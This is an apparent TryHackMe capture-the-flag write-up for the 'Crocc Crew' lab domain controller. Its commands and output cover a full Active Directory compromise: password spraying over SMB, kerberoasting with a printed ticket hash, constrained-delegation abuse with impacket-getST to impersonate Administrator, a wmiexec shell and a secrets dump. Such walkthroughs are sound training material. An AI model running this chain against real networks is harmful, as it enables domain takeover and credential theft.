# THM - Crocc Crew

#### Ip: 10.10.202.195
#### Name: Crocc Crew
#### Rating: Insane

------------------------------------------------


```
You just gained initial access into a segmented part of the network and you've found only one device -- A domain controller. It appears that it's already been hacked... Can you find out who did it?
```

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.202.195
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-17 13:32 CST
Nmap scan report for 10.10.202.195
Host is up (0.13s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-17 19:32:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.COOCTUS.CORP
| Not valid before: 2024-12-16T19:21:04
|_Not valid after:  2025-06-17T19:21:04
| rdp-ntlm-info: 
|   Target_Name: COOCTUS
|   NetBIOS_Domain_Name: COOCTUS
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: COOCTUS.CORP
|   DNS_Computer_Name: DC.COOCTUS.CORP
|   Product_Version: 10.0.17763
|_  System_Time: 2024-12-17T19:33:42+00:00
|_ssl-date: 2024-12-17T19:34:21+00:00; 0s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49882/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-12-17T19:33:42
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.66 seconds
```

Lets add COOCTUS.CORP to `/etc/hosts`

```
10.10.202.195   COOCTUS.CORP dc.cooctus.corp
```

Looking at the site on port 80 we find:



Turning our attention to Kerberos we can user Kerbrute to enumerate users.



While this is running I can manually check for a `/robots.txt` page and find one:

```
User-Agent: *
Disallow:
/robots.txt
/db-config.bak
/backdoor.php
```

Looking at `/db-config.bak`:



We find a pair of credentials: `C00ctusAdm1n:B4dt0th3b0n3`

`/backdoor.php` also seems interesting, and appears to be a webshell, but as of now I can't execute basic commands:


Struggling to find a foothold as the discovered credentials don't work, we can use rdesktop to access the IP without providing any credentials:

```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ rdesktop 10.10.202.195
```

This loads the page:



There is a sticky note on the desktop that has the account `visitor` (which we discovered using Kerbrute) and a partial password `GuestLo...`

Because I couldn't read the whole password, I created a small list of likely possibilities:

```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ cat pass.txt                                            
GuestLogin
GuestLogon
GuestLogin123
GuestLogon123
GuestLogin123!
GuestLogon123!
GuestLogin!
GuestLogon!
```

None of these worked against RDP, but one did work against SMB:

```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ crackmapexec smb 10.10.202.195 -u 'visitor' -p pass.txt | grep [+]
SMB         10.10.202.195   445    DC               [+] COOCTUS.CORP\visitor:GuestLogin!
```

This gives us READ access to a few shares:

```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ netexec smb 10.10.202.195 -u 'visitor' -p 'GuestLogin!' --shares
SMB         10.10.202.195   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB         10.10.202.195   445    DC               [+] COOCTUS.CORP\visitor:GuestLogin! 
SMB         10.10.202.195   445    DC               [*] Enumerated shares
SMB         10.10.202.195   445    DC               Share           Permissions     Remark
SMB         10.10.202.195   445    DC               -----           -----------     ------
SMB         10.10.202.195   445    DC               ADMIN$                          Remote Admin
SMB         10.10.202.195   445    DC               C$                              Default share
SMB         10.10.202.195   445    DC               Home            READ            
SMB         10.10.202.195   445    DC               IPC$            READ            Remote IPC
SMB         10.10.202.195   445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.202.195   445    DC               SYSVOL          READ            Logon server share 
```

This gives us access to the first flag:



Attempting kerberoasting with these credentials we drop the ticket for user password_reset:

```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ impacket-GetUserSPNs -dc-ip 10.10.202.195 -request COOCTUS.CORP/visitor

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
ServicePrincipalName  Name            MemberOf  PasswordLastSet             LastLogon                   Delegation  
--------------------  --------------  --------  --------------------------  --------------------------  -----------
HTTP/dc.cooctus.corp  password-reset            2021-06-08 17:00:39.356663  2021-06-08 16:46:23.369540  constrained 


[-] CCache file is not found. Skipping...
$krb5tgs$23$*password-reset$COOCTUS.CORP$COOCTUS.CORP/password-reset*$a1521cdb7520b002e08d2ae5a8c8ec7d$dd6df4059437f7b77ea4e9e3d5bfa5fa775cb55befec994efe03a1b4465bee6c55bdb34d6f83d61a1850453e77a208900e95ab1f397b21b34926da3ce2b16128838a9c5e97362a71fa1dea3f4c1acf8414956b0685d08d85994b7e84b996686d1efaee0fa4a22f6e00d4602547f7cc6a31cc838431cb4f1471cbd1429a828306ad22019d7d569a328be0e0ea75915ef278bb140bdd02bd47374e9d58e2f66218b704852c31752e48273834d5d5072e426b9fee5f2a81721ab431d400a941fdf75e32d866e68368725ea65224e8dad75f56365bc74380dec37c0e3b89b6b7c01cc7d11b5620f3be75a9a3923883c215bad9c31f843c2a91669376e53bde6381f8c2585304e8e021e4e2318eccd1d04e2b01366f052e35f70cf8f0ed1ec1acaaca9963e542e0393bf94553d1e4473d3984e210c717c117d5824c2e3167da9d1b636c133d04921231c48b0c7c526073199609cb024cc796f4480e7cc544f325207229546113734fa3e5d254c5087588d507bef5f5ec306fedac6f4e23fd151d8af17c809e33f63d66ab66d56adc41f7c5c37397e670ecd6557dd5a3b052116248010977c244979d1a60643a0927fb3c867b544aa4c0f31611d0754730c11db93f133169dd3b99e66a4b63eee964d3c99a3937bfa12564e3576f0d540e5d5b1801f963fa9745f3e7a8c5a9a1db3a6437f038797c140873b6ccb713de355b7be23f6dd76ab631b5b85e48a3ac2aa773e2b9c8f7521f042145c683923da4bb9329229d71a3b207a1cde4376cce586ec4dfc0b1b74953c89f273691ed8955263a5aa81883cfe2daedbb15bf4680a8b1490c79a8b442413a3d846a7f448413dd473c1353c85f6b8608b068d34461d9789a829b2375ad2c984c38f3b20ec4d8bb430a4374be9215b2a061c6f26de2b66e07c0c83a7bb4a8cc48b2e1233dfbc92005b778c6a300fb7380b80d92bcd0dccb25b585c8035ccb9cb25d12a58f27d758676e8ae8b4e7bdf1a56280196561e9b5d2f48cb803917d248549a413b8b9e429ad65b51e3d833a6b4877449073045f6d2011bf432e92e964b1f51d3637f9a8b3b5cbfa364bfe1453fee0af57d90c6e12c05e48b391db4cbb9178d202a672267591148449e8398e97376457bac4be0c8f0961999de0c61bcab0220075e0a4a4fa03c9bf69df530f4f5325d91024e9e145a00117c4129c7f7ea1be9b254c760baf272144ff01e7f64e0fc2744a6377973ff51686b4b8023c8b292962ce49da510f7c035ee07528ecff0a5efa9d0f907065654b1a43352fe696ba1641e989cb7129c201a43f2f25e30cc25c12934b470949b33d9b3c5f26c28486284fe5d5fd757c
```

We can crack this with John:



Let's update our users.txt and pass.txt files:

```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ echo password-reset >> users.txt                       
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ echo resetpassword >> pass.txt 
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ cat pass.txt              
GuestLogin!
resetpassword
```

Let's also get a complete users list:
```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ netexec smb 10.10.202.195 -u password-reset -p resetpassword --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1
Administrator
Guest
krbtgt
DC$
Visitor
mark
Jeff
Spooks
Steve
Howard
admCroccCrew
Fawaz
karen
cryillic
yumeko
pars
kevin
jon
Varg
evan
Ben
David
password-reset
```

Lets run bloodhound-python to visualize the domain:

```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ bloodhound-python -c All -u password-reset -p 'resetpassword' -d cooctus.corp -ns 10.10.202.195 --zip
INFO: Found AD domain: cooctus.corp
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.cooctus.corp
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.cooctus.corp
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 17 users
INFO: Found 63 groups
INFO: Found 2 gpos
INFO: Found 11 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.COOCTUS.CORP
WARNING: Failed to get service ticket for DC.COOCTUS.CORP, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: [Errno Connection error (dc.cooctus.corp:88)] [Errno -2] Name or service not known
INFO: Done in 01M 22S
INFO: Compressing output into 20241217152700_bloodhound.zip
```

Marking password-reset and visitor as owned, it's not exactly a surprise that password-reset has ForceChangePassword enabled for several users:



But even more interesting is we see that password-reset is allowed to delegate:



```
Allowed To Delegate	oakley/DC.COOCTUS.CORP/COOCTUS.CORP
oakley/DC.COOCTUS.CORP
oakley/DC
oakley/DC.COOCTUS.CORP/COOCTUS
oakley/DC/COOCTUS
```
We can exploit this with impacket-getST:

```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ impacket-getST -k -impersonate Administrator -spn oakley/DC.COOCTUS.CORP cooctus.corp/password-reset
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@oakley_DC.COOCTUS.CORP@COOCTUS.CORP.ccache
```

Followed by:

```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ export KRB5CCNAME=Administrator@oakley_DC.COOCTUS.CORP@COOCTUS.CORP.ccache
```

We can then login to the DC:
```
┌──(ryan㉿kali)-[~/THM/Crocc_Crew]
└─$ impacket-wmiexec -k -no-pass Administrator@dc.cooctus.corp
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
cooctus\administrator

C:\>hostname
DC
```

We can then grab the root.txt flag:



As this shell is a bit buggy, lets also use impacket-secretsdump to extract hashes for persistence:



We can find the other two flags in `C:\shares\Home`:



Thanks for following along!

-Ryan

-----------------------------------------------------
